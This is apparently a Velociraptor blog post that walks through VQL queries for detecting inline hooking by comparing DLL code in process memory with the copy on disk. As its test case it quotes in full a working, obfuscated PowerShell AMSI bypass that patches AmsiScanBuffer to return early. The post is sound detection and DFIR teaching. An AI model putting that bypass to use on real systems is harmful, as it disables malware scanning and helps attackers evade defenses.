



This post was spurred by the recent release of the
[Windows.Memory.Mem2Disk]() artifact,
written by Lautaro Lecumberry and Dr. Michael Denzel. The artifact was
a culmination of their excellent thesis, [Detecting Fileless Malware
using Endpoint Detection and Response
Tools](https://github.com/lautarolecumberry/DetectingFilelessMalware). You
should check it out!

Memory analysis is a powerful technique used in DFIR to detect malware
and persistence mechanisms which are sometimes not detectable using
more conventional disk based methods.

Over the years, frameworks like
[Volatility](https://github.com/volatilityfoundation/volatility3) or
[MemprocFS](https://github.com/ufrisk/MemProcFS) have become the
standard go-to tools when analysts think of memory analysis.  Those
frameworks usually operate on a static image of physical memory.

However, this has a number of shortcoming when performing active
response in modern environments:

1. In order to obtain the physical memory image (for example, using a
   tool like [WinPmem](https://github.com/Velocidex/WinPmem)) one
   usually needs to load a kernel driver. On hardened endpoints this
   is not always possible, presenting challenges in actually obtaining
   memory images.

2. The size of physical memory is very large in modern systems. Most
   consumer laptops now regularly ship with 16Gb of physical RAM and
   most server class machines have memory sizes in the range of 128Gb
   to 1Tb of Physical RAM.

   A larger RAM size presents challenges for analysis. First, the size
   of the image makes it difficult to store and transport across the
   network. Additionally, the image quality is usually poor due to a
   larger amount of memory smear exasperated during the longer
   acquisition time - making subsequent memory analysis unreliable.

3. Physical memory images are actually not a very good format for
   acquiring the state of the endpoint. This is because operating
   systems use virtual memory and on demand paging. For example, while
   in theory one can dump binaries from running memory using
   e.g. Volatility's `procdump` plugin, in reality the dumped binaries
   are missing many executable pages, which are not memory
   resident. Instead the operating system will page those binary
   instructions from disk at runtime, if they are needed.

   Therefore capturing physical memory, even if done perfectly and
   without smear, will miss many parts of those things we actually
   need to extract in our analysis - such as binaries, user data
   (which may be in the page file) etc.

Velociraptor's memory capabilities do not rely on physical
memory. Although Velociraptor does have the ability to capture a
physical memory image (e.g. using the [Windows.Memory.Acquisition]()
artifact), much of Velociraptor's memory capabilities are implemented
using plugins which directly query the operating system for
information about the system (including process memory).

Many of Velociraptor's memory analysis plugins have equivalent or
similar plugins in Volatility. Using these plugins allows Velociraptor
to perform similar analysis to many of Volatility's native physical
memory analysis modules.

However, Velociraptor's approach is faster and more scalable since it
does not need to acquire an image first, and can get perfect
information as needed. For example, when dumping a binary from memory,
we automatically cause the OS to page in non-resident pages (simply by
virtue of reading the page through the API), so the end binary dump is
perfect and far better than we could do from a physical memory image.

This blog post is the first in a series of posts describing
Velociraptor's approach to memory analysis. In each post I will
compare and contrast Velociraptor's approach to other memory analysis
frameworks. In particular I will dive into the VQL queries that are
used to develop such artifacts in order to share my development
process and point out some of the lesser known capabilities.

My goal is to convince you to think of Velociraptor's memory analysis
capability as the **first** port of call when developing new memory based
detections! It is far more practical than writing a single use python
script and can be deployed quickly and at scale.

In this post I will discuss how to detect inline hooking. There are
many opensource tools which implement this kind of detection (for
example [Hollows
Hunter](https://github.com/hasherezade/hollows_hunter) which you can
use in Velociraptor's using the [Windows.Memory.HollowsHunter]() artifact). In this
post I will describe how this can be implemented purely in VQL.

# Inline hooking of binaries

Inline hooking is a popular technique for subverting a binary by
patching the function header as it is loaded into memory. For example,
patching ETW tracing functionality can disable user space ETW reporting,
such as PowerShell script block logging.

It is also possible to patch functions in [other different
processes](https://attack.mitre.org/techniques/T1056/004/), thereby
subverting them by diverting execution to an attacker controlled code
injections.



The process is illustrated above. When a DLL is loaded into memory,
the OS maps its text section (i.e. the actual code of the functions it
exports) into the process's virtual memory. Normally calling these
functions causes execution to jump into the function body. However,
the attacker may want to prevent calling some functions. Therefore,
they can simply overwrite the front of the function with a return
instruction causing the function to be bypassed.

To illustrate this technique, let's examine the following short
powershell snippet
[AMSIBypassPatch.ps1](https://github.com/okankurtuluss/AMSIBypassPatch/blob/090b54a518fecf1ccf8f54f8691805ef0f9a30f1/AMSIBypassPatch.ps1):

```
function Disable-Protection {
    $k = @"
using System;
using System.Runtime.InteropServices;
public class P {
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    [DllImport("kernel32.dll")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    public static bool Patch() {
        IntPtr h = GetModuleHandle("a" + "m" + "s" + "i" + ".dll");
        if (h == IntPtr.Zero) return false;
        IntPtr a = GetProcAddress(h, "A" + "m" + "s" + "i" + "S" + "c" + "a" + "n" + "B" + "u" + "f" + "f" + "e" + "r");
        if (a == IntPtr.Zero) return false;
        UInt32 oldProtect;
        if (!VirtualProtect(a, (UIntPtr)5, 0x40, out oldProtect)) return false;
        byte[] patch = { 0x31, 0xC0, 0xC3 };
        Marshal.Copy(patch, 0, a, patch.Length);
        return VirtualProtect(a, (UIntPtr)5, oldProtect, out oldProtect);
    }
}
"@
    Add-Type -TypeDefinition $k
    $result = [P]::Patch()
    if ($result) {
        Write-Output "Protection Disabled"
    } else {
        Write-Output "Failed to Disable Protection"
    }
}

Disable-Protection
```

This code prevents calling `AmsiScanBuffer` used to scan PowerShell
code for suspicious constructs:

1. It gets a handle to the amsi.dll library.
2. It then finds the AmsiScanBuffer function.
3. Changes the page protections on the function to allow writing on
   the memory.
4. Overwrites the memory with a return op code
5. Changes memory protections back.

You can use this example while reading the following post.

# How can we detect memory patching?

The main indicator for memory patching is that the code resident in
memory is not the same as the code of the DLL on disk. So the approach
here is to compare the code in memory with the code on disk for each
DLL.

I will develop the following in a notebook cell which I am launching
on a Windows system using [Instant Velociraptor](). This approach allows me
to interactively develop my VQL on a live system in the convenience of
a GUI notebook without needing to call into a remote client. See
[Artifact Writing Tips ]() for more
details.

In a separate window I start powershell, and paste the above code into
it. This will patch `amsi.dll` so I can use it as a test to develop my
VQL.

## Step 1: Enumerate processes of interest

First I list all the processes and identify the powershell process.

```vql
SELECT * FROM pslist()
WHERE Name =~ "powershell"
```


The [pslist()]() VQL
plugin is similar to Volatility's `pslist` plugin - it simply lists
all active processes and reveals important information about them.

In this case, I am interested in the process ID (Pid) of the
powershell process. I want to use that to see all dll's mapped into
the powershell process's address space.

## Step 2: Finding mapped Dlls

I am especially interested in how this process is mapping the
`amsi.dll`. Executable dlls are normally mapped into a process address
space by the kernel when the dll is loaded. I can view the mapped
sections of a process using the [vad()]() VQL plugin. This plugin is
equivalent to Volatility's `vad` plugin, and produces a list of all
mapped sections in the process. If the section is backed by a file
then the filename is also given, as well as the memory protections of
the region.

```vql
SELECT * FROM foreach(row={
  SELECT * FROM pslist()
  WHERE Name =~ "powershell"
}, query={
  SELECT Pid, Name, *
  FROM vad(pid=Pid)
  WHERE MappingName =~ "amsi.dll"
})
```


As we see above, the region with `PAGE_EXECUTE_READ` protections which
is backed by the `amsi.dll` is the one containing the actual code
exported by the DLL.

So our goal is to find the same dll on disk and compare the bytes in
memory with the bytes on disk.

## Step 3: Convert from kernel paths to filesystem paths

However, as you can see, the Windows kernel reports the mapping
filename in kernel path conventions:
`\Device\HarddiskVolume3\Windows\System32\amsi.dll` referring to the
kernel's internal device manager path. We can not use this path to
directly open the file on disk.

Somehow, we need to convert `\Device\HarddiskVolume3\` to `C:\`. The
conversion is actually done by the Kernel's object manager depending
on how the volumes are mounted at the moment. The `C:\` drive letter
is simply a symbolic link to the real path as far as the kernel is
concerned.

Luckily we can inspect the content of the kernel object manager using
the [winobj()]()
plugin. This is the VQL equivalent of Volatility's `winobj` plugin. It
shows the kernel's object manager namespace.

I wont get into too much details, but the following VQL code
translates from kernel paths into file paths using the object manager
namespace. I just paste this code in my notebook and call it as
`DriveReplace(Path)`:

```vql
-- These functions help to resolve the Kernel Device Filenames
-- into a regular filename with drive letter.
LET DriveReplaceLookup <= SELECT
    split(sep_string="\\", string=Name)[-1] AS Drive,
    upcase(string=SymlinkTarget) AS Target,
    len(list=SymlinkTarget) AS Len
  FROM winobj()
  WHERE Name =~ "^\\\\GLOBAL\\?\\?\\\\.:"

LET _DriveReplace(Path) = SELECT Drive + Path[Len:] AS ResolvedPath
  FROM DriveReplaceLookup
  WHERE upcase(string=Path[:Len]) = Target

LET DriveReplace(Path) = _DriveReplace(Path=Path)[0].ResolvedPath || Path

SELECT *
FROM foreach(row={
  SELECT * FROM pslist()
  WHERE Name =~ "powershell"
}, query={
  SELECT Pid, Name, DriveReplace(Path=MappingName) AS DllName, *
  FROM vad(pid=Pid)
  WHERE MappingName =~ "amsi.dll"
})
```

## Step 5: parsing the DLL from disk

In our artifact we would rather just import those utility functions
from a common artifact (these functions are actually provided by the
`Windows.System.VAD` artifact). In this way VQL allows us to
modularize artifacts and reuse code.

I also want to format the address in hexadecimal and parse the dll
from disk using the [parse_pe()]() plugin.

Putting it all together:

```vql
LET _ <= import(artifact="Windows.System.VAD")
LET Hex(X) = format(format="%#x", args=X)

SELECT * FROM foreach(row={
    SELECT *
    FROM pslist()
    WHERE Name =~ "powershell"
  },
             query={
    SELECT Pid, Name, Hex(X=Address) AS Address,
           DriveReplace(Path=MappingName) AS Dll,
           parse_pe(file=DriveReplace(Path=MappingName)) AS PEInfo, *
    FROM vad(pid=Pid)
    WHERE MappingName =~ "amsi" AND ProtectionMsg =~ "PAGE_EXECUTE_READ"
  })
```


In the above we see some important information:

1. The code of `amsi.dll` is mapped into the process at virtual
   address `0x7ff945181000`.

2. By parsing the sections from the dll on disk we can tell the code section  named `.text` :

   * Has a file offset of 4096 bytes inside the PE file.
   * The Virtual Memory address preferred by the DLL is 6442455040
   * The Relative Virtual Address of the text section is 4096. This is
     relative address (from the DLL load offset) where this section
     starts.
   * The size of the section is 73728 bytes.

Although the DLL wants to be loaded at a preferred virtual memory
address of 6442455040, windows does not actually load at this
address. Instead it is loaded at 0x7ff945181000. This is because
Windows tries to randomize the address space by shifting the loading
location of the dll to a random start location.

This is called the ASLR shift (Address space layout
randomization). Let's visualize how it looks in memory:



Let's extract the interesting fields from the `.text` section by
writing a VQL function to locate the `.text` section from a DLL on
disk:

```vql
-- Filter all the PE sections to find the .text section
LET GetTextSegment(Path) = filter(
   condition="x=>x.Name = '.text'",
   list=parse_pe(file=Path).Sections)[0]

LET Sections = SELECT Pid, Name, Address, Dll,
    GetTextSegment(Path=Dll) AS TextSegment
FROM foreach(row={
    SELECT * FROM pslist()
    WHERE Name =~ "powershell"
  }, query={
    SELECT Pid, Name, Address,
           DriveReplace(Path=MappingName) AS Dll, *
    FROM vad(pid=Pid)
    WHERE MappingName =~ "amsi"
      AND ProtectionMsg =~ "PAGE_EXECUTE_READ"
  })

SELECT *,
  Hex(X=Address) AS Address,
  Hex(X=Address - TextSegment.VMA) AS ASLR
FROM Sections
```


The above query calculates the ASLR offset, and gets the essential
information for the `.text` section.

## Step 6: Comparing the memory regions with the disk

Now I will read the `.text` section from disk and memory. Velociraptor
allows to read process memory using the [proces accessor](). The accessor makes the
process memory appear as a huge file, so we can apply any VQL function
or plugin which expects a file directly on process memory.

This is useful for example in applying the `yara()` plugin to scan
memory for patterns. However, in this case I just want to read the
`.text` section and compare it with the disk, I can use the
[read_file()]() VQL
function to just read the file into a single buffer string (Note that
when using the process accessor the filename must be of the form
`/<pid>`):

```
LET PidAsString(Pid) = format(format="/%d", args=Pid)

SELECT *,
       Hex(X=Address) AS Address,
       Hex(X=Address - TextSegment.VMA) AS ASLR,
       read_file(offset=TextSegment.FileOffset,
                 length=TextSegment.Size,
                 filename=Dll) AS DiskData,
       read_file(offset=Address,
                 length=TextSegment.Size,
                 accessor="process",
                 filename=PidAsString(Pid=Pid)) AS MemoryData
FROM Sections
```


## Step 7: Comparing memory to disk

Next I need to compare the `MemoryData` and `DiskData`. I can start
with a naive implementation which compares 8 bytes at the time (This
will be too slow on larger DLLs but for this example it should be fast
enough):

```vql
LET Compare(MemoryData, DiskData) = SELECT
    _value AS Offset,
    MemoryData[_value:(_value + 8)] AS MemoryInt,
    DiskData[_value:(_value + 8)] AS DiskInt
  FROM range(end=len(list=MemoryData), step=8)
  WHERE MemoryInt != DiskInt

SELECT
    *, Hex(X=Address) AS Address,
    Hex(X=Address - TextSegment.VMA) AS ASLR,
    GetTextSegment(Path=Dll) AS TextSegment,
    Compare(DiskData=read_file(offset=TextSegment.FileOffset,
                               length=TextSegment.Size,
                               filename=Dll),
            MemoryData=read_file(offset=Address,
                                 length=TextSegment.Size,
                                 accessor="process",
                                 filename=PidAsString(Pid=Pid))) AS Comparison
FROM Sections
```

I first define a `Compare` VQL function which accepts two buffers
`MemoryData` and `DiskData`. It then iterates over the length of the
buffers in steps of 8 bytes. For each 8 byte offset, the function gets
the bytes in both buffers and compares them. The function then shows
the rows where the memory is different.


We can see that in this case, a single 8 byte address is different
between the memory and disk at offset 46080.

## Step 8: Resolving the function that was patched

While it is interesting to see the address of where the memory has
been modified, we dont know much about this address. It would be nice
to be able to see what function exactly was patched since it will give
us more indication of the intent of the patch.

Since `amsi.dll` exports a number of functions, we know their relative
addresses. We can therefore look up which exported function starts
just before the modified address - chances are this is the function
the attacker wanted to modify.

The DLL's export table indicates all the functions that are exported
from the dll, and their Relative Virtual Addresses (i.e. relative
address to the base address at which the DLL is loaded).

Therefore we need to calculate the relative address of the hit, and
then look up the export table quickly to resolve the nearest function.


This is shown diagrammatically above. The different offset (within the
mapped segment) is converted to an RVA by adding the `.text` section's
RVA offset, then we can look up the name of the function from the
export table using the [describe_address()]() function.

We modify our comparison function to accept the `TextSegment` and
return the name of the exported function:

```vql
LET Compare(MemoryData, DiskData, TextSegment, Dll) = SELECT
    _value AS Offset,
    TextSegment.RVA + _value AS RVA,
    describe_address(module=Dll, rva=TextSegment.RVA + _value).func AS Func,
    MemoryData[_value:(_value + 8)] AS MemoryInt,
    DiskData[_value:(_value + 8)] AS DiskInt
  FROM range(end=len(list=MemoryData), step=8)
  WHERE MemoryInt != DiskInt
```


Now it is very obvious what this patch aims to achieve!

## Step 9: Handling relocations

The above example was very simplified. If we tested this over more
binaries we would discover that there are many memory locations which
are different from disk due to PE relocations. These are special
addresses in the binary code which require "fixing up" when the binary
is moved from its preferred base address.

With the use of 64 bit code, the number of relocations is much
smaller, although 64 bit code can sometimes have relocations
too. However, in 32 bit code relocations are very common.

When an address is patched by the loaded due to relocations, the value
in that address is increased by the ASLR offset. This means the
integers stored at that address on disk and memory have a constant
difference.

More complex VQL can deal with these and exclude expected differences
due to relocations.

We will not describe this more complex code in this blog post, and
simply refer the reader to the full [Windows.Memory.Mem2Disk]() artifact,
written by Lautaro Lecumberry and Dr. Michael Denzel.

This artifact is also optimized for performance and has many useful
filters to restrict scanning to those dlls commonly targeted by
malware. The artifact is also multi-threaded which makes scanning
multiple processes in parallel possible.


The artifact also allows uploading the different memory regions for
further inspection.

On my system the `Windows.Memory.Mem2Disk` artifact completes a full
scan of all running processes in under 2 seconds.

# Discussion

In this post we saw how some of the memory analysis tools available in
Velociraptor can be combined to write some very sophisticated
detections for memory patching attacks.

Lets compare those memory analysis primitives we explored in this
article, with Volatility's plugins:

1. The `pslist` plugin is similar - Velociraptor's plugin returns
   similar results to Volatility's `pslist` plugin, except that
   Velociraptor's plugin uses the APIs, making it much faster and
   absolutely reliable. Volatility's `pslist` plugin parses internal
   kernel structures, depends on memory profiles which can be fragile
   and is susceptible to memory smear (e.g. process linked list may be
   broken due to smear causing many processes to be missed).

2. Velociraptor's `vad()` plugin is very similar to Volatility's `vad`
   plugin, but uses the APIs to obtain its data, hence the results are
   coherent and reliable.

3. When converting from kernel paths to filesystem paths, we used
   Velociraptor's `winobj` plugin which is similar to Volatility's
   `winobj` plugin.

4. Parsing the Dll from disk we used Velociraptor's powerful
   `parse_pe()` plugin which gives a lot of details about the PE file,
   including sections, exports etc.

5. When reading process memory, we used `read_file()` with the process
   accessor. Volatility has similar internal facilities to reconstruct
   the process virtual address space from the physical memory
   image. However, this capability is limited because much of the PE
   mapped section is not memory resident into physical memory. Windows
   maps the DLL lazily such that data is read from disk only when
   needed. This typically means that dumping process memory from
   Volatility is unreliable as it is missing large chunks of the
   binary.

   To be fair, if the binary is patched in memory, then the page will
   be allocated (using copy on write semantics) and it is likely to be
   resident. So Volatility is likely to still find all the patched
   pages in physical memory.

6. Resolving function names we used the `describe_address()` plugin,
   which caches much of data so it is very fast to resolve many
   addresses.

Velociraptor's memory analysis does not require a memory image, and
yields better results. It is typically much faster and can be deployed
at scale over a large number of endpoints. Since the logic is written
in VQL, we can tweak and improve the query over time without needing
to deploy new binaries or endpoints.

Velociraptor's VQL language is fast and multithreaded, allowing very
fast scanning. If needed, Velociraptor's queries can be CPU limited
too so we can balance speed over endpoint resource usage.

So is it always better to use Velociraptor's memory analysis? Not
always. The main disadvantage with Velociraptor's approach is that
data is obtained from standard API calls. This means that the
operating system can enforce security restrictions on the data
Velociraptor can access.

It is quite normal for Velociraptor to be unable to read some process
memory - either due to a security product preventing this operation,
or because the target process is protected by the operating system
(e.g. [Protected Process Light
(PPL)](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-)). In
this case we will see messages such as `vad: OpenProcess for pid 1004
(csrss.exe) : Access is denied.` limiting our access to some processes.

Does it matter? It depends. If the malware has higher level of access
than Velociraptor (e.g. if it is running in kernel mode, or is signed
as a PPL process) then it might be able to hide in those protected
processes that Velociraptor can not access.

But then again, if the malware has such privilege it can easily stop a
driver from loading to prevent physical memory acquisition as well -
it becomes an arms race.

# Conclusions

When analysts think of developing a new memory analysis technique,
they often immediately go to a physical memory image with a framework
like Volatility. I hope you have seen that this is not necessary and
Velociraptor's VQL actually makes things much easier to develop and
can produce more reliable results.

Velociraptor's binary parser is also very powerful (it was inspired
from Volatility's internal parser) so you have similar tools for
parsing complex binary structures as Volatility provides.

If you like to try the new `Windows.Memory.Mem2Disk` artifact, take
Velociraptor for a spin !  It is available on GitHub under an open
source license. As always please file issues on the bug tracker or ask
questions on our mailing list `velociraptor-discuss@googlegroups.com`
. You can also chat with us directly on discord
https://www.velocidex.com/discord .
